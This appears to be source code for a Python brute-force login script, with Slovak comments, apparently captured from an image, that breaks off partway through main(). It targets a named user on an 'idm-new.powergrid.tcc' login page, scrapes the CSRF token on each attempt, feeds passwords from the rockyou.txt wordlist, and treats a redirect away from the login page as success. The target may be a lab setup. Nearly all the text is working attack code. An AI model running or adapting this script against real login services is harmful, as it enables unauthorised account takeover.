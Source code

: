 ```python
import requests
from bs4 import BeautifulSoup
import time
import sys

# Konfigurácia
URL = "http://idm-new.powergrid.tcc/login"
USERNAME = "ella.reed@powergrid.tcc"
ROCKYOU_PATH = "rockyou.txt"
MAX_RETRIES = 5

session = requests.Session()

def get_csrf_token():
    try:
        response = session.get(URL)
        soup = BeautifulSoup(response.text, 'html.parser')
        csrf_input = soup.find('input', {'name': '_csrf_token'})
        if csrf_input:
            return csrf_input.get('value')
        return None
    except Exception as e:
        print(f"[!] Chyba pri získavaní CSRF tokenu: {e}")
        return None

def try_login(password, attempt=1):
    if attempt > MAX_RETRIES:
        print(f"[!] Prekročený limit pokusov pre heslo: {password}")
        return False

    csrf_token = get_csrf_token()
    if not csrf_token:
        print(f"[!] Nepodarilo sa získať CSRF token, pokus {attempt}/{MAX_RETRIES}")
        time.sleep(1)
        return try_login(password, attempt + 1)

    data = {
        '_username': USERNAME,
        '_password': password,
        '_csrf_token': csrf_token
    }

    try:
        response = session.post(URL, data=data, allow_redirects=False)

        if 'Location' in response.headers:
            location = response.headers['Location']

            if location != "http://idm-new.powergrid.tcc/login":
                return True

        return False

    except Exception as e:
        print(f"[!] Chyba pri pokuse o prihlásenie: {e}, pokus {attempt}/{MAX_RETRIES}")
        time.sleep(1)
        return try_login(password, attempt + 1)

def main():
    print(f"[*] Začínam brute-force útok na {URL}")
    print(f"[*] Používateľ: {USERNAME}")
    print(f"[*] Slovník: {ROCKYOU_PATH}")
    print("-" * 60)
```